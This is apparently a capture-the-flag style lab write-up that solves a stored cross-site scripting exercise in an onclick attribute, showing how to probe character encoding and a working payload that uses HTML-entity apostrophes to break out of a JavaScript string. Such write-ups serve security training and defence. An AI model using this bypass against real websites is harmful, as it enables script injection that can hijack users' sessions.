


# Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

> Lab Objective: submit a comment that calls the alert function when the comment author name is clicked.

- Firstly, Enter simple input like this `test'"><` in input fields in order to post a comment, then search for the input in the Source Code.
  

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- Code snipped where input is reflected:
  - I've noticed that Comment and Author fields their input has `'"><` html encoded.
  - While Website fields `'` is escaped while `"<>` are html encoded.

```html
<section class="comment">
  <p>
    
    <a
      id="author"
      href="https://test.comtest4\'&quot;&gt;&lt;"
      onclick="var tracker={track(){}};tracker.track('https://test.comtest4\'&quot;&gt;&lt;');"
      >test2&apos;&quot;&gt;&lt;</a
    >
    | 07 May 2025
  </p>
  <p>test1&apos;&quot;&gt;&lt;</p>
  <p></p>
</section>
```

- But when you use this payload in the website field, `alert` function will execute successfully. The Payload: `http://foo?&apos;-alert(1)-&apos;`
  

- Therefore, the lab is solved.
  

---
